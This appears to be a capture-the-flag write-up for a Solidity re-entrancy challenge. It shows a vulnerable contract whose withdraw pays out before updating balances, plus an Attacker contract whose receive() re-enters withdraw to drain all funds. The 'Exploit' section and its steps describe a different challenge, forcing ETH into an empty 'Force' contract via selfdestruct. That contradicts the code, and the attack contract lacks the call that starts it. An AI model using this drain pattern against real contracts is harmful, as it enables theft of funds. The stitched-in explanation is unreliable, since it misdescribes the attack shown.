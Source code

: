 # Re-entrancy

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```

## Goal

steal all the funds from the Reentrance contract

## Exploit

In order for a smart contract to be able to receive ETH it should have fallback() and/or receive() functions implemented.

As we can see our Force smart contract is empty so it seems it is not possible to send ETH to it, or maybe it is :).
Let's find out.

Every smart contract in Solidity can call a special function called selfdestruct. What this function does is deleting the contract from the blockchain and sending all remaining ETH stored in the contract to a designated address. More info can be found <a href="https://docs.soliditylang.org/en/v0.8.19/introduction-to-smart-contracts.html#deactivate-and-self-destruct" target="_blank" rel="noopener noreferrer">here</a>.

So, how can we make use of selfdestruct to solve the CTF. We can create another smart contract (Attacker), call the selfdestruct function on the Attacker contract, and set the address of the Force contract as a designated target for sending the ETH

The steps to reproduce the exploit would be:

1. create Attacker contract, and send the address of the Force contract inside the Attacker contract
2. the constructor of the Attacker smart contract should be payable in order to be able to receive ETH while instantiating the contract (we will send this ETH on contract creation)
3. create external destruct() function inside Attacker contract, this function will call selfedstruct with the Force address as argument
4. call the destruct() function

## Attacker contract code

```
contract Attacker {
  Reentrance private immutable reentrance;

  constructor(address payable _reentrance) public {
    reentrance = Reentrance(_reentrance);
  }

  receive() external payable {
    if(address(reentrance).balance > 0) {
      if(address(reentrance).balance > reentrance.balanceOf(address(this))) {
        reentrance.withdraw(reentrance.balanceOf(address(this)));
      } else {
        reentrance.withdraw(address(reentrance).balance);
      }
    }
  }
}
```